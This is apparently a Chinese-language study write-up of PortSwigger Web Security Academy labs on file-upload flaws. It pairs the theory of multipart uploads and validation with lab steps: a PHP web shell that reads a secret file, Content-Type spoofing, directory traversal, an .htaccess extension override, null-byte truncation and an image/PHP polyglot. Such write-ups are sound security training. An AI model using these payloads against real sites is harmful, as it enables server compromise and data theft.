





## 1、利用不受限制的文件上传漏洞上传Web shell

目标：窃取文件 `/home/carlos/secret` 的内容

在个人主页有上传头像的地方，上传`shell.php`，内容如下：

```php
<?php echo file_get_contents('/home/carlos/secret');?>
```

在显示头像的地方看看头像是怎么获取的



然后访问：

```
https://0aa900a203a0d23f887340ad005e0055.web-security-academy.net/files/avatars/shell.php
```

## 2、利用文件上传验证缺陷

### 理论：

提交 HTML 表单时，浏览器通常会使用内容类型 `application/x-www-form-url-encoded` 的 `POST` 请求来发送提供的数据。这种方式适合发送简单的文本，例如您的姓名或地址。但是，它不适合发送大量二进制数据，例如整个图像文件或 PDF 文档。在这种情况下，内容类型 `multipart/form-data` 是首选。

multipart/form-data 是一种 MIME 类型，用于在 HTTP 请求中同时发送多个部分的数据（例如文件和文本字段）。

假如对于一个上传邮箱地址和头像的表单，它的请求包的请求体内容是这样的：

```
------WebKitFormBoundarygbzvCPdCoJ7uhIoA
Content-Disposition: form-data; name="avatar"; filename="xgboost_performance_zh (2).png"
Content-Type: image/png
………………图片内容
------WebKitFormBoundarygbzvCPdCoJ7uhIoA
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundarygbzvCPdCoJ7uhIoA
Content-Disposition: form-data; name="csrf"

eZo1UbTmFx4lYfnrcxJGiNZ5d8fuiwko
------WebKitFormBoundarygbzvCPdCoJ7uhIoA--
```

请求体被分隔成多个部分，每个部分由一个边界字符串（WebKitFormBoundarygbzvCPdCoJ7uhIoA）分隔。（边界字符串是随机生成的）

```
------WebKitFormBoundarygbzvCPdCoJ7uhIoA
Content-Disposition: form-data; name="avatar"; filename="xgboost_performance_zh (2).png"
Content-Type: image/png
………………图片内容
```

- form-data 表示这是一个表单数据部分。
- name="avatar" 是服务器端用来识别该字段的键名，表明这是一个名为 avatar 的字段。
- filename="xgboost_performance_zh (2).png" 指定了上传文件的文件名。

**Content-Type: image/png**：指定了文件的 MIME 类型，表示这是一个 PNG 格式的图片。

```
------WebKitFormBoundarygbzvCPdCoJ7uhIoA
Content-Disposition: form-data; name="user"

wiener
```

**Content-Disposition: form-data; name="user"**：

- 表示这是一个名为 user 的表单字段。

**wiener**：这是字段的值，表示用户名为 wiener。

```
------WebKitFormBoundarygbzvCPdCoJ7uhIoA
Content-Disposition: form-data; name="csrf"

eZo1UbTmFx4lYfnrcxJGiNZ5d8fuiwko
```

- 表示这是一个名为 csrf 的表单字段，用于跨站请求伪造（CSRF）防护的令牌。

**eZo1UbTmFx4lYfnrcxJGiNZ5d8fuiwko**：这是 CSRF 令牌的值。


网站尝试验证文件上传的一种方式是检查此输入特定的 `Content-Type` 标头是否与预期的 MIME 类型匹配。例如，如果服务器仅期望图像文件，则可能只允许 `image/jpeg` 和 `image/png` 等类型。当服务器隐式信任此标头的值时，可能会出现问题。如果没有执行进一步的验证来检查文件内容是否与预期的 MIME 类型匹配，则可以绕过


常见的MIME类型

```
超文本标记语言文本 .html、.html：text/html
普通文本 .txt： text/plain
RTF 文本 .rtf： application/rtf
GIF 图形 .gif： image/gif
JPEG 图形 .jpeg、.jpg： image/jpeg
au 声音文件 .au： audio/basic
MIDI 音乐文件 mid、.midi： audio/midi、audio/x-midi
RealAudio 音乐文件 .ra、.ram： audio/x-pn-realaudio
MPEG 文件 .mpg、.mpeg： video/mpeg
AVI 文件 .avi： video/x-msvideo
GZIP 文件 .gz： application/x-gzip
TAR 文件 .tar： application/x-tar
```


### 题目：

改mime类型为image/jpeg

## 3、通过目录遍历上传webshell

虽然首先阻止上传危险文件类型显然更好，但第二道防线是阻止服务器执行任何漏网的脚本。

作为预防措施，服务器通常只运行已显式配置为执行MIME类型的脚本。否则，它们可能只是返回某种错误消息，或者在某些情况下，将文件的内容作为纯文本提供，如果是这样，就泄漏源码

如果限制了上传目录不可执行，可以更改路径使其具备执行权限：

正常上传shell.php然后访问：



将源码输出

修改文件名：



访问

```
GET /files/avatars/../shell.php HTTP/2
```



## 4、黑名单不全

过滤php 但忽略了 `.php5` 、 `.shtml`等

服务器通常不会执行文件，除非它们已配置为执行此操作。例如，在 Apache 服务器执行客户端请求的 PHP 文件之前，开发人员可能必须在其 `/etc/apache2/apache2.conf` 文件中添加以下指令：

```
LoadModule php_module /usr/lib/apache2/modules/libphp.so
    AddType application/x-httpd-php .php
```

许多服务器还允许开发人员在各个目录中创建特殊的配置文件，以便覆盖或添加一个或多个全局设置。例如，Apache 服务器会从名为 `.htaccess` 的文件（如果存在）加载特定于目录的配置。

### 靶场：



将filename换成：.htaccess

将content-type换成：text/plain

将文件内容换成：AddType application/x-httpd-php .l33t

这会将任意扩展名（ `.l33t` ）映射到可执行的 MIME 类型 `application/x-httpd-php` 。由于服务器使用了 `mod_php` 模块，它已经知道如何处理这种情况。

将原来的`shell.php`改成`shell.l33t`，再上传，上传之后访问

## 5、混淆文件扩展名

%00截断 条件是php版本小于5.3.4

改包：

filename改成：shell.php%00.jpg

content-type改成：image/jpeg 等

然后访问 files/avaters/shell.php

原理：

%00 是 URL 编码中的空字节（null byte），对应 ASCII 码中的 \0 字符。在某些编程语言（如 C/C++ 或早期 PHP）中，空字节被用作字符串的结束标志。后端php在处理字符串时遇见%00会认为字符串已经结束，因此，shell.php%00.jpg 在处理时被截断为 shell.php，而后缀 .jpg 被忽略。

服务器检查文件后缀，shell.php%00.jpg 表面符合规则，因此通过检查。

文件保存时，实际存储为shell.php，因为后面被%00 (/0) 截断

攻击者访问shell.php，触发代码

## 6、文件内容验证存在缺陷

更安全的服务器不会隐式地信任请求中指定的 `Content-Type` ，而是尝试验证文件的内容是否真正与预期相符。

以图片上传功能为例，服务器可能会尝试验证图片的某些固有属性，例如其尺寸。例如，如果您尝试上传一个 PHP 脚本，它根本不会有任何尺寸。因此，服务器可以推断出它不可能是图片，并据此拒绝上传。

类似地，某些文件类型的文件头或文件尾可能始终包含特定的字节序列。这些字节序列可以像指纹或签名一样用来判断内容是否与预期类型匹配。例如，JPEG 文件始终以字节 `FF D8 FF` 开头。

这是一种更为稳健的文件类型验证方法，但即便如此，也并非万无一失。使用 ExifTool 等特殊工具，可以轻松创建一个元数据中包含恶意代码的多语言 JPEG 文件。

### 靶场：

上传shell.php，内容是

```
<?php echo file_get_contents('/home/carlos/secret');?>
```

上传失败，提示 not a valid image

即使抓包把文件后缀和content-type修改了也无用

说明他是检查文件内容的，将一个图片的后缀改成php再上传，上传成功，说明只是单纯地检测文件上传内容

那么可以伪造具有图片文件开头信息的php文件

```
copy mypic.jpeg/b+shell.php/a 1.php
```

将1.php上传，上传成功，然后访问

上传的文件叫 `1.php` → 扩展名是 `.php` → **Apache / Nginx / IIS + PHP 模块会尝试把它当作 PHP 脚本解析和执行**

## 7、条件竞争

现代框架对此类攻击的防御能力更强。它们通常不会将文件直接上传到文件系统上的预定目标位置。相反，它们会采取一些预防措施，例如先将文件上传到一个临时的沙盒目录，并随机化文件名以避免覆盖现有文件。然后，它们会对这个临时文件进行验证，并且只有在确认安全的情况下才会将其传输到目标位置。

话虽如此，开发人员有时会独立于任何框架实现自己的文件上传处理。这不仅相当复杂，而且还可能引入危险的竞争条件，使攻击者能够完全绕过即使是最强大的验证机制。

例如，有些网站会直接将文件上传到主文件系统，如果未通过验证，则会再次将其删除。这种行为在依赖杀毒软件等工具检测恶意软件的网站中很常见。这可能只需要几毫秒，但在文件存在于服务器上的短暂时间内，攻击者仍有可能执行该文件。

这些漏洞通常非常隐蔽，除非您能找到泄露相关源代码的方法，否则很难在黑盒测试期间检测到它们。

类似的竞争条件也可能出现在允许通过 URL 上传文件的函数中。在这种情况下，服务器必须先通过互联网获取文件并创建本地副本，然后才能执行任何验证。

由于文件是通过 HTTP 加载的，开发人员无法使用其框架内置的安全文件验证机制。相反，他们可能会手动创建自己的流程来临时存储和验证文件，但这可能不太安全。

例如，如果文件加载到一个具有随机名称的临时目录中，理论上攻击者应该不可能利用任何竞争条件。如果他们不知道目录名称，就无法请求该文件来触发其执行。另一方面，如果随机目录名称是使用 PHP 的 `uniqid()` 等伪随机函数生成的，则可能会被暴力破解。

为了使此类攻击更容易实施，您可以尝试延长处理文件的时间，从而延长暴力破解目录名的时间窗口。一种方法是上传更大的文件。如果文件是分块处理的，您可以利用这一点，创建一个恶意文件，在开头包含有效载荷，后面跟着大量任意填充字节。